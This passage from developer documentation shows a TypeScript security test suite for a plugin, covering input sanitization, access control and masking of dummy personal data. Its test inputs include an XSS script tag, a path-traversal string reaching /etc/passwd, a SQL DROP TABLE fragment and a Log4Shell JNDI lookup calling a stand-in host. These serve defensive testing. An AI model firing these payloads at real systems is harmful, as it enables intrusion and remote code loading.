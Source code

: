 ## 🛡️ Plugin Security Testing

### Security Validation Patterns
```typescript
describe('Plugin Security', () => {
  let securityMetric: PluginSecurityMetric;
  
  beforeEach(() => {
    securityMetric = new PluginSecurityMetric(model);
  });
  
  it('should validate input sanitization', async () => {
    const maliciousInputs = [
      '<script>alert("xss")</script>',
      '../../etc/passwd',
      'DROP TABLE users;',
      '${jndi:ldap://evil.com/a}'
    ];
    
    for (const input of maliciousInputs) {
      const result = await plugin.processInput(input);
      const securityResult = await securityMetric.measure(result);
      
      expect(securityResult.score).toBeGreaterThan(0.9);
      expect(securityResult.vulnerabilities).toHaveLength(0);
    }
  });
  
  it('should enforce access controls', async () => {
    const restrictedOperation = 'admin-only-operation';
    const unauthorizedUser = { role: 'user', permissions: ['read'] };
    
    await expect(
      plugin.executeOperation(restrictedOperation, {}, unauthorizedUser)
    ).rejects.toThrow('Unauthorized');
  });
  
  it('should protect sensitive data', async () => {
    const sensitiveData = { ssn: '123-45-6789', creditCard: '4111-1111-1111-1111' };
    const result = await plugin.processData(sensitiveData);
    
    expect(result.output).not.toContain('123-45-6789');
    expect(result.output).not.toContain('4111-1111-1111-1111');
    expect(result.dataProtected).toBe(true);
  });
});
```

## 📊 Plugin Performance Testing
